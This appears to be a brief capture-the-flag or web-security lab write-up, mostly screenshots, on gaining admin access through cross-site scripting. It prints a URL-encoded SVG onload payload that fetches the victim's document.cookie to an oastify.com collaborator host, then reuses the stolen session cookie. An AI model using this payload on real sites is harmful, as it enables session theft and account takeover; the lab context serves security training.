 
1. Scan using the following endpoint and configuration

![](Pasted_image_20231209232453.png)


![](Pasted_image_20231209233250.png)

> Exploit to achieve the admin 

```html
%27%22%3E%3Csvg%2Fonload%3Dfetch%28%60%2F%2Flynmyqfuoly4ub03kbgux2ajqaw1kr8g%2Eoastify%2Ecom%2F%24%7BencodeURIComponent%28document%2Ecookie%29%7D%60%29%3E
```


![](Pasted_image_20231209233752.png)
![](Pasted_image_20231209233736.png)

> Copy the session cookie and lab solved


![](Pasted_image_20231209234019.png)

